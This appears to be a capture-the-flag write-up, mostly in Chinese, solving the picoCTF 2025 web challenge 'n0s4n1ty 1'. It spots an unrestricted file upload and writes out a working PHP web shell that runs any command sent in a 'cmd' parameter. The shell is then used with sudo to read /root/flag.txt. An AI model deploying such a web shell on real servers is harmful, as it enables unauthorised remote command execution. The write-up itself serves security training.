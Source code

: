 # n0s4n1ty 1

tags: ` Web Exploitation`, `picoCTF 2025`, `browser_webshell_solvable`

![1747207940918](image/SOLVED/1747207940918.png)

### 查看上傳檔案的 function

```
var loadFile = function(event) {
    var input = event.target;
    var file = input.files[0];
    var type = file.type;
    var output = document.getElementById('preview_img');
    output.src = URL.createObjectURL(event.target.files[0]);
    output.onload = function() {
        URL.revokeObjectURL(output.src) // free memory
    }
};
```

因為沒有限制檔案-> 可嘗試丟 `*.php`

### 嘗試 : 利用$\_GET

```
<?php
    if(isset($_GET['cmd'])) {
        $cmd = $_GET['cmd'];
        echo "<pre>";
        system($cmd);
        echo "</pre>";
    } else {
        echo "No command provided.";
    }
?>
```

![1747495006877](image/SOLVED/1747495006877.png)

連接至 `<url>/uploads/shell.php`

並利用 `?cmd=<cmd>`傳入指令

![1747495204580](image/SOLVED/1747495204580.png)

又以 `sudo -l`

![1747495412774](image/SOLVED/1747495412774.png)

發現可直接訪問 `/root/`

輸入 `shell.php?cmd=sudo cat /root/flag.txt` 即可得到 `flag`
